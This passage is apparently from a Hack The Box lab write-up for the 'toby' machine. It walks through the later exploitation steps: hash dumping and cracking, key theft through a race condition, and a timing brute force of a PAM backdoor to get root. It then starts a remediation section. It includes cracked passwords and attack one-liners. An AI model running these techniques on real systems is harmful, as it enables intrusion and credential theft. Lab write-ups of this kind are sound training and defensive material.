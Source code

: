 10. **Internal Service Exploration**: Accessed internal hosts via proxy; found personal web app on 172.69.0.104 with password generator (`/api/password`) and notes.

11. **WordPress DB Dumping**: Used MySQL client via proxy to connect to DB (host: mysql.toby.htb at 172.69.0.102, creds from wp-config.php), dumped WP users and password hashes from `wp_users`.

12. **Hash Cracking**: Cracked hashes using Hashcat (`hashcat --user hashes.txt /opt/wordlists/rockyou.txt`), obtained passwords (`toby:tobykeith1`, `toby-admin:tobykeith1`).

13. **Gogs Access as toby-admin**: Logged into Gogs with cracked creds, downloaded support system DB (SQLite with encrypted blobs) and personal web app source (Flask app).

14. **Decrypting Support DB (Optional Hint)**: Dumped SQLite schema, extracted encryption keys/IV/mode (AES-CBC) from `encryption_meta`, decrypted blobs in CyberChef, revealed hints about slow authentication post-attack.

15. **Exploiting DB Test Endpoint**: In personal web app, triggered `/api/db_test?secret_db_test=9ef=<attacker_ip>` to force MySQL connection attempt, captured auth traffic in Wireshark.

16. **MySQL Hash Extraction and Cracking**: Extracted MySQL native password hash and salts from Wireshark, created custom wordlist based on app's password generator (seeded by epoch times around July 2021), cracked with Hashcat (mode 11200) to get `jack`'s password (`f0Rdi3_and_Gr33n_TracT0Rs!!!`).

17. **SSH to MySQL Container**: Used cracked password to SSH into MySQL container (172.69.0.102) as `jack`.

18. **Process Monitoring with pspy**: Ran pspy in container to observe cron jobs dumping DB and SSHing backups using temporary private key in `/tmp`.

19. **Key Extraction via Race Condition**: Scripted Bash loop (`while [ $? -ne 0 ]; do cat /tmp/*/key 2>/dev/null; done`) to capture temporary SSH private key.

20. **SSH to Host**: Used captured key (`ssh -i jack.key jack@[TARGET-IP]`) to access main host as `jack`, obtained user flag.

21. **PAM Backdoor Discovery**: Enumerated filesystem timestamps (`find / -type f -printf "%T+\n" | sort | uniq -c`), identified suspicious `/usr/lib/x86_64-linux-gnu/security/mypam.so` and `/etc/.bd`.

22. **Reverse Engineering PAM Module**: Copied `mypam.so` locally, analyzed in Ghidra: revealed backdoor password check from `/etc/.bd` with timing side-channel (0.1s sleep per correct character).

23. **Timing-Based Brute Force**: Generated charset wordlist (letters, digits, punctuation), scripted Bash loop with `time` to measure `su` delays, brute-forced password character-by-character (padding to 10 chars), obtained backdoor password (`TiHaqP4pse`).

24. **Privilege Escalation to Root**: Used backdoor password with `su -` to gain root access, obtained root flag.

## Security Gaps and Remediation

This machine demonstrates multiple critical security vulnerabilities across different services:

### Web Server (Nginx with WordPress)
- **Backdoor in comment.php**: Obfuscated malicious code (base64, rot13, gzip) allows remote code execution via crafted comments with specific author, URL, and comment patterns that trigger a reverse connection and command execution.
  - **Fix**: Source code fix - Remove the eval-based backdoor code from comment.php and implement proper input sanitization/validation for comment fields using WordPress hooks like `preprocess_comment` to prevent arbitrary code injection.
- **Exposed Absolute URLs**: WordPress uses absolute URLs leading to subdomain exposure (e.g., wordpress.toby.htb).
  - **Fix**: Configuration fix - Configure WordPress site URL and home URL in wp-config.php or settings to use relative paths where possible, or ensure proper redirects and virtual host configurations in Nginx to handle subdomain resolutions securely.
- **Running on Non-Standard Server (Nginx instead of Apache)**: Unusual setup noted, potentially leading to misconfigurations.